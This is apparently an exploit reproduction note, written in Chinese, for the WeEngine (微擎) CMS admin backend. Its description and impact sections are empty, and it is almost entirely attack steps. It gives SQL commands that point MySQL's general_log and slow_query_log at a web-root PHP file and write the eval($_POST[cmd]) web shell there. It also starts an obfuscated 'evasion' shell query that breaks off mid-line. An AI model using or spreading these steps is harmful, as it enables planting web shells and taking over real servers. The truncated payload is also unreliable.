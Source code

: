 # 微擎cms 后台绕过禁用函数写shell

### 一、漏洞简介

### 二、漏洞影响

### 三、复现过程

1.站点设置里面打开调试

![](images/15897255187361.png)


2.执行语句

select into被禁止

![](images/15897255270193.png)


3.利用日志文件写shell


```sql
show variables like '%general%';  #查看配置
 
set global general_log = on;  #开启general log模式
 
set global general_log_file = '/var/www/html/1.php';   #设置日志目录为shell地址
 
select '<?php eval($_POST[cmd]);?>'  #写入shell
```

![](images/15897255412555.png)


4.SQL查询免杀shell的语句


```sql
SELECT "<?php $p = array('f'=>'a','pffff'=>'s','e'=>'fffff','lfaaaa'=>'r','nnnnn'=>'t');$
```

补充:来自土司@GuoKerSb的分享

在无法修改general_log_file指向的地址且网站用户量多时刻处于查询的状态，我们还可以通过启动slow_query_log（慢查询日志，默认关闭）来写shell


```sql
set global slow_query_log=1;
set global slow_query_log_file='/var/www/html/1.php';
select '<?php eval($_POST[cmd]);?>' or sleep(11);
```

四、参考链接

https://www.vulnbug.com/Exploit/Microcomputer-CMS-bypasses-disabled-Intooutfile-and-safe-dog.html